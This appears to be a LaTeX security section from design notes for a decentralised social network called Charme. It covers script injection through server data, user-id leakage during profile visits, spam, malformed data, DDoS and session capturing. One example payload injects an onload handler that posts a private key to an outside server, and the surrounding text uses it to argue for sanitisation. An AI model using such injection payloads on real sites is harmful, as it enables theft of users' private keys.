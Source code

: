 \documentclass{scrartcl}
\begin{document}
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!\\
     

\subsubsection{Anonymity of Search Request and Profile Visits}
      In the current implementation, the user id is sent to other servers when requesting a profile or performing a search on this server for example. The server host could log who is visiting which profiles. 
Possible counter measures are 
\begin{enumerate}
\item Providing a set of user ids, in which only one is the actual user id. This would affect the performance however and will only work if enough "fake" users are provided.
\item Use an encrypted database. (See section "Future work" for details)
\end{enumerate}      
      
      \subsubsection{Other Attacks}
      
      \begin{description}
      
     
      
\item[Spam]      All posts from non-friends should be blocked. An exception are posts containing semantic information which should be searchable all over the web. Here we can either expand the search to friends server (efficient but may contain more spam) or even check friend of friend posts only (more computational power, but less spam).
\item[Malformed data]      Attackers can send malformed data to clients which results in the client to producing an exception and therefore make Charme unusable for the user. Therefore malformed requests should be filtered by the client by checking for missing and correct typed values.
\item[DDoS]
Attackers can flood small servers with a lot of requests.
\item[Session Capturing] Send JSON request from another Website to host server. Make sure you can not access unencrypted user data such as lists for example.
\end{description}
\end{document}
